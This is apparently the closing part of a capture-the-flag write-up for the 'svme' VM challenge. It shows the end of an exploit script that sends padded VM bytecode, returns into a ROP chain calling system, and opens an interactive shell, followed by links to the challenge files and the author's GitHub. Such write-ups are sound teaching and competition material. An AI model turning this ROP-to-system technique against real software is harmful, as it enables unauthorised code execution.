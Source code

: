 ```python
    HLT_OP # Terminate the program that is running inside the "virtual machine".
    
    # after hlt instruction the vm_exec function returns to our rop chain.
    # pop rdi; ret; ret; system;
]

bytecode = compile(shellcode)
padding = (512-len(bytecode))*p8(0)
s(bytecode+padding)

io.interactive()
```

![](https://lh3.googleusercontent.com/kIcaJHh3YY8JmKXmGq_dfrUguAfqdIb35mE7jn7XSIiTkweTUlkAevBqkuDyXGF-nwFA9Hmz6w7FOfyDsp1mc4Pm4bYAmON9cFZAhBo=w600)

[challenge](https://files.bitwarriors.net/ctf/RealWorldCTF4/svme_9495bfd34dcaea7af748f1138d5fc25e.tar.gz)

[un1c0rn's github](https://github.com/St-Canary/)

